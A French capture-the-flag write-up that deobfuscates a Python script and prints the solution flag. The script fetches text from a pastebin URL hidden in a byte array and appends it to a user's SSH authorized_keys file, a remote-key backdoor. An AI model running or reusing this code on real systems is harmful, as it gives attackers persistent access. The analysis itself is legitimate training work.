

## Résolution

On a un script qui à été volontairement compliqué pour rien. 

```python
import requests as __import_0__  
import base64 as __import_1__  
  
def __function_0__():  
    __variable_0__ = bytearray([104, 116, 116, 112, 115, 58, 47, 47, 112, 97, 115, 116, 101, 98, 105, 110, 46, 99, 111, 109, 47, 114, 97, 119, 47, 53, 97, 72, 106, 49, 57, 107, 101])  
    __variable_1__ = 10  
    for __variable_2__ in range(len(__variable_0__)):  
        __variable_0__[__variable_2__] ^= __variable_1__  
    __variable_3__ = __variable_0__.decode('ascii')  
    __variable_4__ = __import_0__.get(__variable_3__)  
    __variable_4__.raise_for_status()  
    __variable_5__ = __variable_4__.text  
    __variable_6__ = "/home/tchia/.ssh/authorized_keys"  
    with open(__variable_6__, "a") as __variable_7__:  
        __variable_7__.write(__variable_5__ + "\n")  
  
if __name__ == "__main__":  
    __function_0__()
```

Ce qu’on comprend : 
* il y a un tableau de bytes avec des données
* le script fait du xor sur ces données
* il fait une requête sur le résultat décodé des bytes 
* met ce résultat dans un fichier sur le système

On va donc reconstruire ces données et fait l’appel à l’url en question : 

```python
import requests as requests

# tableau de bytes
data = bytearray([104, 116, 116, 112, 115, 58, 47, 47, 112, 97, 115, 116, 101, 98, 105, 110, 46, 99, 111, 109, 47, 114, 97, 119,  47, 53, 97, 72, 106, 49, 57, 107, 101])
# on converti en ascii
ascii = data.decode('ascii')  
# on fait une requête sur l'url trouvé et on affiche le résultat
print(requests.get(ascii).text)  
```


>[!question]- Spoiler du flag
> OPENNC{Br4v0_Vous_4vez_Termin3}

